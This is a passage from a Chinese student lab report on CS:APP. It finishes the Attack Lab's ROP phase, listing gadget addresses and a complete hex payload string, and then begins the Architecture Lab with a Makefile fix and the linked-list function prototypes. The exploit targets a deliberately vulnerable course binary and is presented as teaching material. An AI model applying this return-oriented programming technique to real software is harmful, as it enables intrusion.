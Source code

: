 然后：`movl	%ecx, %esi`，这个指令的指令字节为`89 ce`，这一步的地址是`0x401a13`。

![image-20220608232834517](./CSAPP  Lab Report2.assets/image-20220608232834517.png)

然后：`lea	(%rdi, %rsi, 1), %rax`，这个指令直接可以找到，地址是`0x4019d6`。

![image-20220608233021753](./CSAPP  Lab Report2.assets/image-20220608233021753.png)

最后：`movq	%rax, %rdi`，这个指令上一 Phase 用过，位于`0x4019a2`。

总上，我们构造一个字符串：

```
20 11 16 86 20 11 16 86 20 11 16 86 20 11 16 86 20 11 16 86 20 11 16 86 20 11 16 86 20 11 16 86 20 11 16 86 20 11 16 86 06 1A 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 CC 19 40 00 00 00 00 00 48 00 00 00 00 00 00 00 DD 19 40 00 00 00 00 00 70 1A 40 00 00 00 00 00 13 1A 40 00 00 00 00 00 D6 19 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 FA 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61 00
```

保存为`level3_5.txt`，做测试：

![image-20220608233547752](./CSAPP  Lab Report2.assets/image-20220608233547752.png)

### 实验总结

是一个做起来非常有趣的 lab！也学到了很多东西！我们一般做程序开发，都忽视了缓冲区的安全问题，在我原来的印象中，这个安全问题就是 Segmentation Fault 之类的，没想到还可以用来做程序攻击，还能想到利用自己的子程序段攻击自己的方法，感觉收获颇丰！

并且，学完之后对栈的理解更加地深入，今后也会在程序设计中更多的注意到缓冲区（更宽泛地讲：程序）的安全问题。

同时，我注意到在新的 C 标准中，引入了 scanf_s，strcpy_s 等安全的函数，这些函数都添加了边界检查。但是在实际使用中，由于兼容性的问题，除了 Visual Studio 之外这些安全函数都没有得到很好的支持，暑假有空的时候我觉得可以做一些调研，看看各个编译器现在是如何解决类似问题的。

## 4 Architecturelab

> 由于实验 Writeup 较老，与最新的 gcc 出现了一些适配问题，经过一些尝试找到了成功编译 sim 的方法：
>
> - 在 `./sim` 下各个子文件夹的 `Makefile` 中的 `CFLAGS` 和 `LCFLAGS` 后面加上 `-fcommon`，如
>
> ```makefile
> CFLAGS=-Wall -O1 -g -fcommon
> LCFLAGS=-O1 -fcommon
> ```

### Part A

在 `./sim/misc` 下完成这一部分。这一部分需要我们用 `Y86-64` 汇编实现 `examples.c` 中的三个与链表有关的函数。

```C
/* linked list element */
typedef struct ELE {
    long val;
    struct ELE *next;
} *list_ptr;

/* sum_list - Sum the elements of a linked list */
long sum_list(list_ptr ls);
/* rsum_list - Recursive version of sum_list */
long rsum_list(list_ptr ls);
/* copy_block - Copy src to dest and return xor checksum of src */
long copy_block(long *src, long *dest, long len);
```
